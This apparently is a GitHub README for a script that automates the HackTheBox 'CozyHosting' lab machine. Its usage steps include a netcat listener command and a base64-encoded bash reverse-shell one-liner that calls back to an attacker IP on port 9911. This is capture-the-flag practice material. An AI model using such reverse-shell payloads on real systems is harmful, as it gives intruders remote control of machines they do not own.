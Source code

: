 # machine_automations

## [CozyHosting](https://app.hackthebox.com/machines/CozyHosting) HackTheBox
This is a simple rated machine on HackTheBox. 
To use the script;
1. Download the script using:
 ```bash
 wget https://raw.githubusercontent.com/goretti16kate/machine_automations/master/cozyhosting.py
 ```
 2. Open your netcat(nc) listener:
 ```bash
 nc -nlvp 9911
 ```
 3. Modify the script to contain your ip address on line 55:
 ```python
encoded=os.system("echo 'bash -i >& /dev/tcp/10.10.14.55/9911 0>&1'| base64 -w 0 > encoded.txt") # CHANGE IP HERE

 ```
 4. Run the script
 ```bash
 python3 cozyhosting.py
 ```

To better understand the process, [visit my walkthrough on medium](https://k4713.medium.com/k4713-on-cozyhosting-hackthebox-walkthrough-ed7f949c4ac7)


### Happy Hacking :-)

 ---